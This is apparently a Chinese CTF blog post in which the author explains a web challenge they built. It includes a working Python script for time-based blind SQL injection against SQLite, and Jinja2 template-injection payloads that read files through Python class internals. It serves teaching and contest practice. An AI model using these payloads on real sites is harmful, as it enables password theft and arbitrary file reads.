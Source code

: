 ```yaml
---
title: 2019信安国赛出题经历
date: 2019-06-05 15:22:45
categories:
    - 信息安全
    - WEB
tags:
    - Python
    - 数据库
---
```


>## 前言
* 无力吐槽的信安国赛，段子乎喷了上届比赛有多坑，感觉这届也不差啊？
* 算了，我知道是我太菜。

---
* 本博客记录了一篇2019信安国赛复赛本队出题的一些经历。包括题目思路，搭建方法，以及writeup。
* 尽管我们没有最后参加复赛，但是也发现出题是一个很好的锻炼方式。

{% asset_img 1.jpeg %}

<!--more-->

>## MORE

* 题目名称：不仅仅是个SQL
* 出题人：CC from nothing

>### POINTS
1. 基于SQLITE数据库的盲注
1. 基于jinja2模板注入漏洞的任意代码执行漏洞

>### WRITEUP
{% asset_img 2.jpg %}
* 打开网站首先看到的是一个登陆界面

{% asset_img 1.jpg %}
* 照例查看一下网站的robots.txt看一下有没有什么可以发现的。
* robots.txt中是网站登陆认证逻辑的源码，可以看出后算是使用python编写，数据库为sqlite。并对用户输入进行了过滤。

{% asset_img 2.jpg %}
* 输入常用payload发现没有任何回显，所以这里需要盲注
* sqlite3数据库的盲注是采用randomblob()函数
    randomblob()函数生成指定长度的随机字符串。当这个长度足够大的时候就会让服务器产生明显的延迟。这样就可以判断语句的执行成功与否。
* 经过多次尝试发现后端过滤了小写的select，from等关键词。于是采用如图所示的方式注入
* 我们编写了如下脚本来注入获取密码

    ```
    def sqlpw(url):
    session=requests.Session()
    params={"password":"0"}
    password=""
    for i in range(32):
        for x in "0123456789abcdefghijklmnopqrstuvwsyz":
            try:
                username="admin'AND(SELECT(hex(substr(password,{},1)))FROM(users))=hex('{}')AND(randomblob(1000000000))--".format(i+1,x)
                params['username']=username
                # print(params)
                r=session.post(url,data=params,timeout=1)
                # print(r.status_code)
            except exceptions.Timeout:
                password=password+x
                logging.info(password)
                sleep(3)
                break
    return password
    ```
* 运行脚本之后我们就获取到了密码的md5值，利用网上很多的md5查询库便可以得到密码原文

{% asset_img 3.jpg %}
* 使用用户名密码登陆成功之后出现如上的欢迎界面。检查网页源码发现flag位于根目录下
* 这里的鸟居图片既是另一个提示。jinja2项目的LOGO
{% asset_img 4.png %}

{% asset_img 4.jpg %}
* 从URL传入参数username入手写入测试payload验证漏洞存在

{% asset_img 5.jpg %}
* 经过测试发现注入点过滤方括号，于是构成如图所示payload完成注入获得flag

>## Jinja2模板注入漏洞
* Jinja2漏洞最早出现在py2的版本上。
* 漏洞原理基本就是传入的url中如果包含python脚本也是会被模板解析的。因为模板能够访问python内置变量以及变量方法。
* 注意python2和python3存在差别在类层结构上存在差别

```
__class__   返回调用参数类型
__base__    返回基类
__mro__     允许我们在当前Python环境下追溯继承树
__subclasses__()    返回子类
```


1. 获取基类
    
    首先通过str，dict，tuple，list等类型来获取python的基本类（因为python万物皆对象）你也可以通过一些其它jinja2已经导入的包来获取基类

    ```
    python3:
    ''.__class__.__base__
    [].__class__.__base__
    requests.__class__.__base__

    python2:
    ''.__class__.__mro__[2]
    [].__class__.__base__
    requets.__class__.__mro__[8]
    ```

    获取基类的方法可以在python命令行中输入尝试
    
    **如果题目对中括号做了限制，也可以通过__getitem__(2)函数绕过限制**

1. 读取文件

    **以下基类通过object代替**
    
    ```
    python2：
    object.__subclasses__()[40]('/etc/password
    ').read()
    //获取file类读文件
    ```

    python3中要复杂的多，首先是python3的类层结构和python2下相比会复杂的多。其次python3的类必须经过初始化等等操作才可以使用其内建函数

    ```
    python3:
    object.__subclasses__()[78].__init__.__globals__.__builtins__.open("./flag.txt",encoding="utf-8").read()
    ```

    python3中我们获取子类列表之后随便选择一个类，查看其__init__
    ```
    <slot wrapper '__init__' of 'object' objects>
    ```
    wrapper是指这些函数没有被重载。这是他们并不是function，并不具有___globals__属性。我们在多尝试几个子类就可以找到一个被__init__的类，比如。接下来就可以使用内置函数执行命令。

以上都只是最基础的操作，jinja2模板注入还有很多其他操作需要更多的尝试理解才可以完成。

>## 后记

* 这次比赛真是一个很不愉快的体验。这个题目出题到写博客也隔了很久。所以有些细节在本博客中可能描述的很不清楚。（总之这篇博客很垃圾就是了）在图书馆办公室一边修理爬虫一边跑着爬虫利用闲暇之余写出来的博客真的质量不高令人堪忧。总之就这样吧，感谢阅读。




